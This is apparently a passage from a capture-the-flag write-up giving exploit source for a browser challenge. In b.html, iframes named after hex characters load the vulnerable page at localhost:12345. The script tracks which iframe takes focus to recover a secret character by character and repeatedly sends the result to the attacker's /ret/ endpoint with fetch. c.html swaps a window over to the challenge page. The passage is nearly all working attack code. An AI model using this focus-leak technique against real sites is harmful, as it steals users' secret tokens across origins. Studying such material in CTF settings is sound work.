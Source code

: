 `b.html`
```html
<body>
    <a id=focusme href=#>sth</a>
    <script>
        const sleep = d => new Promise(r => setTimeout(r, d));
        alphabet = "0123456789abcdef-"

        //create iframes
        for (var i = 0; i < alphabet.length; i++) {
            iframe = document.createElement("iframe");
            iframe.name = alphabet[i];
            iframe.src = "http://localhost:12345/";
            document.body.appendChild(iframe);
        }

        //array for found characters
        hovered = []

        const main = async () => {
            // every 0.075 secs check for iframes' onfucus event
            setInterval(() => {
                p = document.activeElement.name
                if (p) {
                    // if there's focus on an iframe -- add its character to hovered and change the focus
                    hovered.push(p);
                    document.getElementById("focusme").focus();
                }
            }, 75)

            await sleep(2000);
            c = open(`/c.html`);
            await sleep(2000 + 150);

            // every 500 secs send found characters to our server endpoint /ret/:characters
            setInterval(() => {
                fetch(`/ret/${hovered.join("")}`)
            }, 500);
        }

        main();
    </script>
</body>
```

The third one is just a free document to be replaced with the vulnerable challenge page:

`c.html:`
```html
<script>
    b = open(`/b.html`);
    location.replace("http://localhost:12345/");
</script>
```
